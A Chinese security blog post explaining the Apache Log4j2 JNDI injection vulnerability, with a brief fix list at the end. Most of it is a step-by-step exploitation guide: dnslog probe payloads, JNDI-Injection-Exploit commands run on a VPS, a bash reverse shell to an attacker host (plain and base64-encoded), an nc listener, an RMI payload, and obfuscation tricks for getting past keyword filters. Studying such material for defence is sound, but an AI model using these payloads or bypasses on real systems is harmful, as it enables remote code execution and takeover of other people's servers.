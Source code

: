 #  log4j2漏洞   
simple学安全  simple学安全   2024-11-26 07:52  
  
目录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUicOJWSYZ8cXGJJP9WAA1dicoO1iaic8jPhnw05MoVtfZlzcuY2ybRwdI4jrK9cibfJYyhPslWlLqmkPuw/640?wx_fmt=png&from=appmsg "")  
  
漏洞简介  
  
Apache Log4j2是一个基于Java的日志记录工具。该工具重写了Log4j框架，并且引入了大量丰富的特性，该日志框架被大量用于业务系统开发，用来记录日志信息。大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。  
  
这个漏洞的触发条件为只要外部用户输入的数据会被日志记录，即可造成远程代码执行。利用该漏洞涉及到JNDI(Java命名和目录接口)，允许从指定的远程服务器获取并加载对象，通常利用LDAP和RMI服务。  
  
Log4j2的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析，如果未对lookup查询服务做限制，就可能让查询指向任何服务。该漏洞正是利用这一点在{}中构造JNDI注入，向攻击者的恶意地址获取恶意的.class对象，造成远程代码执行。  
  
漏洞发现与利用  
  
1、**漏洞发现**  
  
常用poc：  
```
${JNDI:LDAP://xxxx.dnslog.cn/test}
${jndi:rmi://xxxx.dnslog.cn/test}
```  
  
可在任意输入框、请求头字段如xff、ua中插入poc，观察dnslog网站是否有记录。  
  
推荐BurpSuite插件：log4j2burpscanner  
  
2、**漏洞利用**  
  
1）首先需要拥有一个VPS，在VPS上构造恶意的.class对象  
  
使用工具：JNDI-Injection-Exploit  
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [address]

-C：指定需要执行的命令
-A：指定恶意.class对象所在服务器的ip，这里就是VPS的ip地址
```  
  
2）这里需要执行的命令为利用bash反弹shell  
```
bash -i >& /dev/tcp/vps_ip/port 0>&1
```  
  
由于使用工具  
JNDI-Injection-Exploit的-C指定命令时，特殊字符会有影响，因此对命令进行base64编码，可在如下网站快速得到编码后的语句：  
  
https://ares-x.com/tools/runtime-exec/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUicOJWSYZ8cXGJJP9WAA1dico3vf2dYqPKKxTVsUufZKsscXibB0yCLjtsAtx9iacNXS6jSZDD5bnnNfg/640?wx_fmt=png&from=appmsg "")  
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3Rjcxxxxxxxxxx=}|{base64,-d}|{bash,-i}
```  
  
3）使用工具  
JNDI-Injection-Exploit构造恶意.class类，并开启端口，等待存在漏洞的服务器请求  
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3Rjcxxxxxxxxxx=}|{base64,-d}|{bash,-i}" -A "vps_ip"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUicOJWSYZ8cXGJJP9WAA1dicowK1FN41Eo77KOsZ8wr0mKcepuOoVzRkJF4hNJGEGJdHhuvbriaiaVt7w/640?wx_fmt=png&from=appmsg "")  
  
4）在vps上开启nc监听  
```
nc -lvp 2333
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUicOJWSYZ8cXGJJP9WAA1dico4WYosK1Iq8ibSzic9fehMmic9bNsIyR2m2UcFWVur2UssHjPIWoD7NQXg/640?wx_fmt=png&from=appmsg "")  
  
5）访问存在漏洞的网站，利用payload进行利用，比如说这里使用：  
```
${jndi:rmi://xxx.xxx.xxx.240:1099/lv0edx}
```  
  
将这个payload放在存在漏洞的位置，即可反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUicOJWSYZ8cXGJJP9WAA1dicoTKFCF7593iaw2pucN2YyXpbTYsKZXPVuxwBjddb020B7QCMksABsvIg/640?wx_fmt=png&from=appmsg "")  
  
这里的payload在url中，进行了url编码  
  
6）成功获得shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUicOJWSYZ8cXGJJP9WAA1dicoh4KFFoODCWVkv5HfjtZ1DndpyN0cWfYKcEaZ4ZPDhS8CycSFqjBMhA/640?wx_fmt=png&from=appmsg "")  
  
绕过方法  
  
1、**多${}绕过**  
  
在处理  
${}时会递归查找，并且找到${}后还会查找 :- ，存在如下关系：  
  
${任意字符串:-想要的字符串}=想要的字符串，因此有如下绕过方法：  
  
${${xxxx:-j}ndi:ldap://xxxxx/xxx}=${jndi:ldap://  
xxxxx/x  
xx}  
  
2、**使用lower和upper绕过**  
  
可以使用lower和upper来绕过关键字检测，例如jndi被限制，可以使用如下方法绕过：  
  
$  
{  
${lower  
:J  
}  
ndi:l  
dap://  
xxxxx/x  
xx  
}  
  
3、**绕过trustcodebase**  
  
trustcodebase是RMI中的一个属性，用于决定是否信任远程代码库，当为false时，将不信任远程库，导致漏洞无法利用。  
  
可使用LDAP协议、直接利用本地类加载器、通过返回恶意类的路径而不是内容进行绕过。  
  
修复建议  
  
1、将Log4j升级到安全版本  
  
2、限制不必要的LDAP和RMI请求  
  
3、修改配置，从类路径中移除JndiLookup类  
  
